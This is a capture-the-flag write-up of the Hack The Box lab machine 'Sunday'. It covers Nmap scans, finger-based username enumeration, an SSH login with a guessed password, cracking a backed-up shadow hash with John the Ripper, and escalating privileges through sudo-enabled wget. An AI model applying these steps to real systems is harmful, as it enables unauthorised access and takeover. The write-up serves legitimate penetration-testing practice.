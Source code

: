# HTB - Sunday

#### Ip: 10.10.10.76
#### Name: Sunday
#### Difficulty: Easy

----------------------------------------------------------------------

### Enumeration

I'll begin enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo nmap -p-  10.10.10.76 --min-rate 10000
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 14:41 CDT
Nmap scan report for 10.10.10.76
Host is up (0.071s latency).
Not shown: 62692 filtered tcp ports (no-response), 2838 closed tcp ports (reset)
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 71.52 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo nmap -sC -sV 10.10.10.76 -p 79,111,515,6787,22022                                       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 14:43 CDT
Nmap scan report for 10.10.10.76
Host is up (0.066s latency).

PORT      STATE SERVICE  VERSION
79/tcp    open  finger?
| finger: Login       Name               TTY         Idle    When    Where\x0D
|_sunny           ???            pts/1          1 Thu 19:43  10.10.14.68         \x0D
| fingerprint-strings: 
|   GenericLines: 
|     Login Name TTY Idle When Where
|     sunny ??? pts/1 Thu 19:43 10.10.14.68
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|_    RTSP/1.0 ???
111/tcp   open  rpcbind  2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  ssl/http Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
| http-title: Solaris Dashboard
|_Requested resource was https://10.10.10.76:6787/solaris/
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=sunday
| Subject Alternative Name: DNS:sunday
| Not valid before: 2021-12-08T19:40:00
|_Not valid after:  2031-12-06T19:40:00
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.33 (Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14
22022/tcp open  ssh      OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
|_  256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)
```

Its interresting that Finger is open on this box. Lets use PentestMonkey's Finger user enumeration tool to see if we can get some usernames here:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo perl ~/Tools/exploits/finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

Cool, looks like we've got a couple of valid usernames.

users.png

### Exploitation

Before trying to bruteforce SSH, I tried just logging in with a username and a couple of basic passwords like root, admin, password, etc. And eneded up getting lucky trying sunny:sunday.

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ ssh sunny@10.10.10.76 -p 22022
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
ED25519 key fingerprint is SHA256:t3OPHhtGi4xT7FTt3pgi5hSIsfljwBsZAUOPVy8QyXc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (ED25519) to the list of known hosts.
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$ whoami
sunny
sunny@sunday:~$ hostname
sunday
```

From here I can grab the user.txt flag in Sammy's home directory:

user_flag.png

### Privilege Escalation

Running `sudo -l` to see what we can run with elevated permissions we find an interesting file:

```text
sunny@sunday:/home/sammy$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
sunny@sunday:/home/sammy$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

Unfortunately I'm unable to view or modify the file, but it appears to be printing the id of whoever executes it.

Looking around a bit more I find a folder called `/backup` that contains what appears to be a portion of `/etc/shadow`. Weird. 

Lets copy this hash back to our attacking box, as well as Sammy's `/etc/passwd` entry, and we can use unshadow and JohnTheRipper to try to crack the hash:

sammy.png

Cool, lets `su sammy` and see what we can find:

```text
sunny@sunday:/backup$ su sammy
Password: 
sammy@sunday:/backup$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Interesting, looks like we can run wget as root. Heading over to https://gtfobins.github.io/gtfobins/wget/ we find the exact commands we'll need to exploit this:

gtfo.png

Lets run those commands and grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan
